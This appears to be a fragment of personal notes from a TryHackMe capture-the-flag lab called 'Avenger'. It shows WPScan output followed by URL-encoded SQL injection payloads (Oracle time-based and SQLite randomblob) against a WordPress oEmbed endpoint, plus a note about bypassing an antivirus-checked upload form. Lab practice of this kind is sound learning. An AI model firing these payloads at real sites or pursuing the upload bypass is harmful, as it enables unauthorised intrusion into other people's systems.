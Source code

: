 [!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jun 21 06:25:05 2024
[+] Requests Done: 51
[+] Cached Requests: 7
[+] Data Sent: 13.062 KB
[+] Data Received: 700.438 KB
[+] Memory used: 188.953 MB
[+] Elapsed time: 00:02:44
                            
http://avenger.tryhackme/wordpress/wp-login.php

### Path Traversal
http://avenger.tryhackme/gift/wp-json/oembed/1.0/embed?format=xml&url=%2Fembed
http://avenger.tryhackme/gift/#?secret=YajmwYABoc


### Path Traversal
GET http://avenger.tryhackme/gift/wp-json/oembed/1.0/embed?format=xml&url=%2Fembed

### SQL Injection
http://avenger.tryhackme/gift/?p=499-2
### SQL - Oracle - Time base
http://avenger.tryhackme/gift/wp-comments-post.php
GET http://avenger.tryhackme/gift/wp-json/oembed/1.0/embed?format=xml&url=http%3A%2F%2Favenger.tryhackme%2Fgift%2F2023%2F06%2F27%2Fhello-world%2F%22+%2F+%28SELECT++UTL_INADDR.get_host_name%28%2710.0.0.1%27%29+from+dual+union+SELECT++UTL_INADDR.get_host_name%28%2710.0.0.2%27%29+from+dual+union+SELECT++UTL_INADDR.get_host_name%28%2710.0.0.3%27%29+from+dual+union+SELECT++UTL_INADDR.get_host_name%28%2710.0.0.4%27%29+from+dual+union+SELECT++UTL_INADDR.get_host_name%28%2710.0.0.5%27%29+from+dual%29+%2F+%22
POST http://avenger.tryhackme/gift/wp-comments-post.php
### SQL - SQLite
GET http://avenger.tryhackme/gift/wp-json/oembed/1.0/embed?format=case+randomblob%2810000000%29+when+not+null+then+1+else+1+end+&url=http%3A%2F%2Favenger.tryhackme%2Fgift%2F2023%2F06%2F27%2Fhello-world%2F
GET http://avenger.tryhackme/gift/wp-json/oembed/1.0/embed?format=xml&url=case+randomblob%28100000%29+when+not+null+then+1+else+1+end+
GET http://avenger.tryhackme/gift/wp-json/oembed/1.0/embed?url=case+randomblob%28100000000%29+when+not+null+then+1+else+1+end+
POST http://avenger.tryhackme/gift/
POST http://avenger.tryhackme/gift/wp-comments-post.php


### http://avenger.tryhackme/gift

## There is upload form with AV checkin - need bypass upload form
